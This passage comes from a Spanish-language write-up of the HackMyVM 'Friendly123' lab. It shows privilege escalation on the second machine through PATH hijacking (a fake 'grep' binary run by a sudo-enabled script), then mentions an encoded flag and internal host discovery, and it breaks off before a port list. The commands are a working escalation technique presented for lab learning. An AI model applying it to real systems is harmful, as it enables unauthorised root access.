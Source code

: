 ## Path Hijacking (F2) [📌](#friendly2-escalada-pathijacking) {#friendly2-escalada-pathijacking}

Creamos binario `grep` que realmente ejecutaría el comando `id`:

```bash
mkdir ~/things
cd ~/things
echo "id" > grep 
chmod +x grep
```

Y simplemente ejecutamos el script como el usuario `root` (con `sudo`) pasándole la variable `PATH` modificada concatenando el contenido original de ella:

```bash
sudo PATH=/home/gh0st/things:$PATH /opt/security.sh
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/friendly123/Friendly123_friendly2_bash_ghostSH_pathHijacking_idROOT.png" style="width: 100%;"/>

Y listoooooooo, ejecuta la primera parte de script, luego ejecuta `grep`, pero como tenemos secuestrado el binario, ejecuta realmente el falso `grep`, o sea, `id` (:

Les dejo de tareita obtener una Shell como `root`, es bien sencillo.

# Post Explotación (F2) [#](#friendly2-post-explotacion) {#friendly2-post-explotacion}

La flag está codificada:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/friendly123/Friendly123_friendly2_bash_rootSH_hidden_flags.png" style="width: 60%;"/>

El script que acabamos de romper está jugando con cadenas y encodeandolas, pues probando con él efectivamente llegamos a la flag, también de tarea.

Enumerando el sistema, igual que antes, encontramos una nueva interfaz asociada a <span style="color: orange;">F2</span>:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/friendly123/Friendly123_friendly2_bash_ipA_newInterface.png" style="width: 100%;"/>

Realizando los mismos pasos para encontrar hosts, llegamos a una dirección IP distinta, probablemente de <span style="color: blue;">F3</span>:

```bash
bash-5.1# ./hosts.sh 
IP Activa: 192.168.40.20
IP Activa: 192.168.40.21
IP Activa: 192.168.40.3
IP Activa: 192.168.40.2
IP Activa: 192.168.40.1
```

Y tiene distintos puertos abiertos:
